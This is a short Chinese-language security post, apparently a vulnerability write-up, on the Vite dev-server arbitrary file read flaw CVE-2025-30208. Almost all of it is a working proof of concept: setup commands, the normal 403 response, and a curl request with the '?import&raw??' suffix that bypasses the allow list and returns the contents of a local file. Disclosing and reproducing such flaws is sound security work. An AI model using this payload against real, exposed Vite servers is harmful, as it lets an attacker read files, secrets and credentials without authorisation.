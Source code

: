 #  vite 任意文件读取漏洞 CVE-2025-30208   
原创 security  网安守护   2025-03-26 23:43  
  
$ npm create vite@latest$ cd vite-project/$ npm install$ npm run dev$ echo "top secret content" > /tmp/secret.txt# expected behaviour$ curl "http://localhost:5173/@fs/tmp/secret.txt"    <body>      <h1>403 Restricted</h1>      <p>The request url &quot;/tmp/secret.txt&quot; is outside of Vite serving allow list.# security bypassed$ curl "http://localhost:5173/@fs/tmp/secret.txt?import&raw??"export default "top secret content\n"//# sourceMappingURL=data:application/json;base64,eyJ2...  
  
